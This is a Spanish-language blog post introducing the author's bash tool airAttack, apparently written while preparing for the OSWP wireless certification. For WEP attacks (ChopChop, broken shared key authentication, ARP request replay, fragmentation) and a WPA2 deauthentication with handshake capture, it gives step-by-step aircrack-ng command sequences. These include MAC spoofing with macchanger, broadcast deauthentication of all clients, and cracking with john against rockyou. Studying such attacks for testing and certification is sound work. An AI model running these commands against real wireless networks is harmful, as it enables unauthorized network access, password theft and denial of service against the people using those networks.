 ```yaml
---
layout: single
title: airAttack
excerpt: "En este artículo, explico la utilidad de la herramienta airAttack. También dejo reflejado cada ataque, la finalidad de cada ataque y como ejecutarlo. Todos los ataques de esta herramienta se ejecutan gracias a la suite aircrack-ng. La herramienta fue publicada en github el día 27/06/2021, pocos días después de aprobar el OSWPcomo primera release."
date: 2021-08-31
classes: wide
header:
  teaser: /assets/images/airAttack/airAttack.jpg
  teaser_home_page: true
categories:
  - script
tags:
  - shell
  - wireless
  - aircrack-ng
  - wireless_pentesting
---
```


![](/assets/images/airAttack/AIR-ATTACK-Header.jpg)

**airAttack** es una herramienta ofensiva para automatizar los ataques a redes inalámbricas escrita en bash. Esta herramienta será mejorada por mi próximamente para para optimizar determinadas porciones de código. Los ataques de denegación de servicio así como nuevas funciones serán añadidas. Este programa lo escribí cuando estaba estudiando para el OSWP (Offensive Security Wireless Professional).

En este artículo, explicaré cada ataque que puede utilizarse en airAttack, la finalidad y como ejecutarlo manualmente.

La herramienta se puede descargar en:

* [https://github.com/e1abrador/airAttack](https://github.com/e1abrador/airAttack)

<h2> Ataques WEP </h2>

Antes de empezar con los ataques WEP, es importante recalcar que todos estos ataques están enfocados obtener el máximo número de IVS para poder crackear la contraseña, a diferéncia de los ataques WPA2, cuya prioridad es obtener el hash de la red para poder posteriormente crackearlo.

**IVS:** Los IVS, también conocidos como "Archivos de Vector de inicialización", se clasifican como archivos de datos que contienen vectores de  inicialización que son necesarios para la generación de los datos cifrados en la red.

<h3><u>Chop</u> <u>Chop</u> <u>Attack</u></h3>
El ataque de **Chop Chop** consiste en coger un byte de datos de un paquete encriptado WEP, substituyendo los valores de los bytes del paquete y recalculando la suma de verificación del encriptado. Los paquetes ya modificados se envían al router, el router simplemente los descarta hasta que el atacante finalmente logra sustituir una suma de verificación válida.

```bash
airodump-ng -c canal_de_ap --bssid mac_de_ap -w captura wlan0
aireplay-ng -1 6000 -o 1 -q 10 -a mac_de_ap -h mac_tarjeta wlan0
aireplay-ng -4 -a mac_de_ap -h mac_tarjeta wlan0
packetforge-ng -0 -a mac_de_ap -h mac_tarjeta -l 192.168.1.2 -k 192.168.1.255 -y *.xor -w ataque_chopchop
aireplay-ng -2 -r ataque_chopchop wlan0
aircrack-ng captura-01.cap
```

**Nota:** Es importante dejar un pequeño espacio de tiempo entre comando y comando y esperar a que cada comando se inyecte correctamente en el router.

<h3><u>SKA</u></h3>
El ataque **SKA**, también conocido como "Broken Shared Key Authentication" consiste en copiar la dirección MAC de un cliente ya conectado a la red en nuestra própia tarjeta de red y generar un ataque de falsa autenticación con nuestra nueva MAC (MAC copiada del cliente previamente autenticado), el objetivo de autenticar nuestra MAC es generar paquetes ARP en la red.

```bash
airodump-ng --bssid mac_de_ap -c canal_de_ap wlan0 -> Por ahora no es necesario empezar a capturar paquetes.
```
Cuando tenemos el punto de acceso localizado y la MAC localizada, dejaremos de ver el tráfico de la red con airodump y procederemos a cambiar la MAC de nuestra tarjeta de red, con el siguiente one-liner se puede cambiar.

```bash
ifconfig wlan0 down &> /dev/null && macchanger --mac mac_de_cliente wlan0 &> /dev/null && ifconfig wlan0 up &> /dev/null
```

**Nota**: Puede que sea necesario ejecutar por segunda vez el one-liner para que se cambie correctamente.

```bash
airodump-ng -w captura --bssid mac_de_ap -c canal_de_ap wlan0
aireplay-ng -3 -b mac_de_ap -h mac_tarjeta wlan0
aireplay-ng -0 1 -e essid_de_ap -a mac_de_ap -h mac_de_ap wlan0
aircrack-ng captura-01.cap
```

<h3><u>ARP</u> <u>Request</u> <u>Replay</u> <u>Attack</u></h3>

El ataque de **ARP Request Replay Attack** consiste en inyectar nuestra MAC en el router víctima, posteriormente se genera un ataque de denegación de servicio sobre uno de los clientes conectados (si este ataque se lanza contra todos, se obtendrán mas IVS, haciendo que la probabilidad de crackear la clave será más alta) y, cuando dichos clientes se vuelnvan a conectar a la red, se genererarán de forma automática paquetes ARP, lo que generará IVS.

```bash
airodump-ng -w captura --bssid mac_de_ap -c canal_de_ap wlan0
aireplay-ng -3 -x 1000 -n 1000 -b mac_de_ap -h mac_de_tarjeta wlan0
aireplay-ng -0 5 -a mac_de_ap -h mac_de_cliente_conectado wlan0
aircrack-ng captura-01.cap
```

<h3><u>Fragmentation</u> <u>Attack</u></h3>

Este ataque necesita que 1 único paquete de datos sea capturado por airodump. Posteriormente, se genera un nuevo paquete modificado con la dirección MAC de nuestra tarjeta de red y se inyecta el paquete modificado por el atacante en el punto de acceso objetivo. De esta forma, se generarán paquetes ARP y, en consecuéncia, los IVS necesários para crackear la clave.

```bash
airodump-ng -w captura --bssid mac_de_ap -c canal_de_ap wlan0
aireplay-ng -1 6000 -o 1 -q 10 -a mac_de_ap -h mac_tarjeta wlan0 -> es muy recomendable dejar el cliente inyectado, ya que facilitará la obtención del paquete de datos.
packetforge-ng -0 -a mac_de_ap -h mac_de_tarjeta -l 192.168.1.2 -k 192.168.1.255 -y *.xor -w fragmentation_attack
aireplay-ng -2 -r fragmentation_attack wlan0
aircrack-ng captura-01.cap
```

<h2> Ataques WPA2 </h2>

El protocolo WPA2 hace años que empezó a monopolizarse en los routers instalados por las compañías telefónicas. Aun que si que es verdad que el protocolo WEP no se suele utilizar, aún hay routers que lo implementan, ya que hay dispositivos (si són de última generación suele no pasar) que únicamente aceptan el procolo WEP.

El objetivo en estas redes es obtener un hash para poder crackearlo mediante el uso de un diccionario de contraseñas.

<h3><u>Ataque</u> <u>de</u> <u>deautenticación</u></h3>

El **ataque de deautenticación** ataque es un ataque de denegación de servicio, el objetivo es provocar que la víctima se reconecte al punto de acceso, en el momento que un dispositivo se conecta al router, se genera un packete handshake, el cual contiene la contraseña hasheada de la red inalámbrica.

```bash
airodump-ng -c canal_de_ap --bssid mac_de_ap -w captura wlan0
aireplay-ng -0 15 -a mac_de_ap -h mac_de_cliente wlan0 -> se utiliza para deautenticar a un solo cliente de la red
aireplay-ng -0 15 -a mac_de_ap -c FF:FF:FF:FF:FF:FF  wlan0 -> se utiliza para deautenticar a todos los clientes de la red
aircrack-ng -J miCaptura captura.cap
hccap2john miCaptura.hccap > hash
john --wordlist=rockyou.txt hash
```
